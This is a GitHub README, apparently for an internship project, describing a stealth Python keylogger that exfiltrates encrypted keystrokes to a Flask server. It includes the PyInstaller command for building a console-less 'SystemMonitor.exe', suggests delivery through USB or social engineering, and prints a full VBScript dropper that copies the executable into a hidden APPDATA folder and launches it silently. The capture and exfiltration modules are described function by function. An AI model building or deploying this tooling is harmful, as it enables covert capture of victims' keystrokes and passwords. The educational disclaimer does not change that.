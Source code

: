 # Python-based Stealth Keylogger with Flask Exfiltration

> **Educational Use Only!** This keylogger project was built strictly for academic and cybersecurity awareness purposes. Unauthorized deployment is illegal and unethical.

---

## Project Overview

This Python-based keylogger captures keystrokes from a target system, encrypts them, and exfiltrates the data to a local Flask server. It is stealthily compiled into an `.exe` file and can be delivered via USB or remotely through links or social engineering. This keylogger attacks system that has Python installed in them.
Systems without Python, won't be able to run this keylogger properly.

### Features

*  Stealth keylogger (runs silently with no console window)
*  Encrypted keystroke logging with timestamp
*  Real-time exfiltration to a local Flask server
*  Log viewing via `/view` endpoint (with decryption)
*  Executable delivery (via PyInstaller)

---

## Project Structure

```
.
├── main.py              # Keylogger logic
├── server.py            # Flask server to receive logs
├── encryption.py        # Encryption/decryption logic
├── exfil.py             # Exfiltration helper
├── Logs/                # Received keystroke logs
├── dist/
│   └── SystemMonitor.exe   # Final compiled EXE
├── launch.vbs           # Dropper script
```

---

## Execution Steps

### 1. Install Dependencies

```bash
pip install flask pynput cryptography
```

### 2. Run Flask Server

```bash
python server.py
```
Basic server using `flask` module. This server is set up to capture each keystroke with timestamp. The use of '/view' and '/capture' is explained in description of `server.py` attachment. We have imported functions `encrypt()` and `decrypt()`, so that we can encrypt
### 3. Run Keylogger

```bash
python main.py
``` 
---

## Building the EXE (Stealth Mode)

```bash
pyinstaller --onefile --noconsole main.py
```
Make sure you have started your virtual environment before executing this command, otherwise you may face issues while running .exe file.
Output will be in `dist/SystemMonitor.exe`

---


## Dropper Script (launch.vbs)

```vbscript
Set fso = CreateObject("Scripting.FileSystemObject")
Set shell = CreateObject("WScript.Shell")

src = fso.GetAbsolutePathName("SystemMonitor.exe")
destFolder = shell.ExpandEnvironmentStrings("%APPDATA%\WinLogs")
dest = destFolder & "\SystemMonitor.exe"

If Not fso.FolderExists(destFolder) Then
    fso.CreateFolder(destFolder)
End If
If Not fso.FileExists(dest) Then
    fso.CopyFile src, dest
    shell.Run "cmd /c attrib +h '" & dest & "'", 0, True
End If
shell.Run """" & dest & """", 0, False
```

---
## Scripts used

### main.py
The main logic for keylogger. It uses pynput library, which uses `keyboard.Listener()` that 'listens' or captures keystrokes. The pynput library is fully used for keyboard and mouse monitoring. What each function in main.py does:-
1. ** process_key(key): ** Processes a single keystroke, formats it for logging, and sends it to an external function (send_keystroke()) with a timestamp. It also handles special cases like the ESC key to stop the keylogger.
2. ** on_press(key): **
     - Calls `process_key(key)` to handle the key.
     - If process_key returns False (i.e., ESC was pressed), the function returns False, which stops the keyboard listener.
     - Otherwise, it implicitly returns None, allowing the listener to continue.
3. ** on_release(key): **
     - Input: Takes a key object from the pynput.keyboard listener.
     - Logic: Does nothing (pass) but can be extended to handle key release events if needed (e.g., logging key release times).
     - Return Value: Implicitly returns None.
The script terminates when `ESC` is pressed on keyboard.
---

### encryption.py

- Uses `cryptography` library's `fernet` class that generates a key and stores it in a file. 
- The library also helps in encryption and decryption. The key is used to and encrypt and decrypt keystroke data.
- The `load_key()` uses the existing key from key file for `encrypt(message)` and `decrypt(token)` operations. --- The `encrypt(message)` takes a string as an input and encrypts it into Fernet token(ciphertext).
- The `decrypt(token)` takes a Fernet token as input and decrypts it into original plaintext, using the key.
note: without the key, encryption and decryption won't take place.

---

### exfil.py

- Exfiltrates data from keylogger and sends it to local flask server
- It uses `requests` library to make HTTP POST requests to flask server
- It uses `json` library to store the keylogger data in JSON format before sending it as POST request.
- The `send_keystroke(raw,timestamp,url)` takes raw input(keystroke) and its time, along with URL which is your local device address and port 5000(default for flask), and sends info to the server endpoint `/capture`
- The function takes data as a dictionary that matches what your server expects(raw, timestamp). It will be converted to JSON and sent as the request body.

---

### server.py

- Basic server using `flask` module. This server is set up to capture each keystroke with timestamp. 
- The use of '/view' and '/capture' is explained in description of `server.py` attachment.
- We have imported functions `encrypt()` and `decrypt()`, so that we can encrypt the logs that will be stored in `keystrokes.txt` and view decrypted data at `/view` route.
- The server starts at port 5000 and host='0.0.0.0' allows access from any device on the same network (useful if the keylogger is on a different machine).
- The `/upload` route accepts full log files from the client. You could upload `keystrokes.txt` from any device using /upload route.

## Important
Press `ESC` button to terminate the keylogger program, if unable to do it so from task manager, and vice versa.

---

## Disclaimer

This project was developed **only for educational demonstrations** as a part of my internship. Misuse may be punishable under cybercrime laws.

> Be smart. Be ethical. Use your skills to protect, not harm.

---

## Credits

* Python `pynput` for keystroke monitoring
* Flask for exfil server
* Cryptography for Fernet encryption
  

---

**Author:** Nihar Sameer Nilatkar  
**GitHub:** github.com/NiharNilatkar  
**LinkedIn:** https://www.linkedin.com/in/nihar-nilatkar-6a0135332/  
